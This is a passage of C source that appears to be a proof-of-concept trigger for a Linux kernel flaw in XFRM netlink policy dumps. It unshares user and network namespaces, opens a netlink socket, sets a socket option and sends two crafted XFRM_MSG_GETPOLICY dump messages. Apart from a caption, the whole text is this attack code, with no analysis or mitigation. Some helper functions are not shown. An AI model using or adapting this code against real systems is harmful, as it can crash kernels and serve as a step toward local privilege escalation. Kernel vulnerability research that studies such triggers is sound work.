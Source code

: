 ```
{
    struct msg_policy *r;

    r = malloc(sizeof(struct msg_policy));
    if(r == NULL) {
        perror("malloc");
        exit(-1);
    }
    memset(r,0,sizeof(struct msg_policy));

    r->msg.nlmsg_len = 0x10;
    r->msg.nlmsg_type = XFRM_MSG_GETPOLICY;
    r->msg.nlmsg_flags = NLM_F_MATCH | NLM_F_MULTI |  NLM_F_REQUEST;
    r->msg.nlmsg_seq = 0x1;
    r->msg.nlmsg_pid = 2;
    return r;

}
int send_msg(int fd,struct nlmsghdr *msg)
{
    int err;
    err = sendto(fd,(void *)msg,msg->nlmsg_len,0,(struct sockaddr*)&addr,sizeof(struct sockaddr_nl));
    if (err < 0) {
        perror("sendto");
        return -1;
    }
    return 0;

}

void create_ns(void)
{
    if(unshare(CLONE_NEWUSER) != 0) {
        perror("unshare(CLONE_NEWUSER)");
        exit(1);
    }
    if(unshare(CLONE_NEWNET) != 0) {
        perror("unshared(CLONE_NEWUSER)");
        exit(2);
    }
}
int main(int argc,char **argv)
{
    struct msg_policy *p;
    create_ns();

    create_nl_socket();
    p = init_policy_dump(100);
    do_setsockopt();
    send_msg(fd,&p->msg);
    p = init_policy_dump(1000);
    send_msg(fd,&p->msg);
    return 0;
}
```
